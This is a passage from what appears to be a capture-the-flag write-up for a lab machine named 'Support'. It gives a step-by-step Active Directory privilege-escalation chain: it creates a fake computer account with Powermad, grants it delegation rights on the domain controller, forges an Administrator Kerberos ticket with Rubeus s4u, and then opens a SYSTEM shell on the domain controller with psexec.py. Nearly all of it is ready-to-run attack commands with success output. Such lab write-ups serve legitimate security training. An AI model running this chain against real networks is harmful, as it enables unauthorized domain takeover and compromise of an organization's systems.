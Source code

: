 ```powershell
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

Verification:

```powershell
Get-ADComputer -Identity FAKE-COMP01
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Machine FAKE-COMP01 successfully created\!
    </p>
</div>

### Configure Delegation

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### S4U Attack with Rubeus

RC4 hash:

```powershell
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Execution:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-ticket-alt mr-2 text-green-500"></i>
        Kerberos ticket for Administrator generated and injected\!
    </p>
</div>


## 👑 Phase 10 — SYSTEM Shell

Ticket conversion and usage:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
